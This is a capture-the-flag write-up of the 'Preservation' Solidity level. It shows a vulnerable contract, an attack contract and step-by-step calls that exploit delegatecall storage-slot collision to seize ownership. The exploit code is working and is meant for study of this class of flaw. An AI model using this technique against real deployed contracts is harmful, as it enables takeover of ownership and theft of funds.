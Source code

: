 # Preservation

## Given code:
```shell
contract Preservation {
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;

  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    ...
  }

  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

contract LibraryContract {

  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```
## Attack code:
```shell
contract Attack {
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; // Storage slot 2 corrosponds w/ Preservation contract slot 2

  // Function selector remains the same
  // Custom logic resets slot2 'owner'
  function setTime(uint _time) public {
    owner = msg.sender;
  }
}
```
## Hack:
Step1:

Create `Attack` contract (see above)

Step2: 

Call `setFirstTime` on `Preservation` contract and pass in `Attack` contract address. Note, the type is `uint` it will accept a type `address`. This will then jump into the 'library' which sets the first storage slot to equal the passed in value. See notes below.

Step3:

Call `setFirstTime` on `Preservation` contract a second time. Now pointing towards our `Attack` contract, the delegate call will operate within the context of the `Preservation` contract with our custom logic.


## Notes:

If a set of code is properly labled as `library` the EVM will prevent it from storing Ether and setting storage variables. In our case this code is labled as a `contract`, a major vulnerability.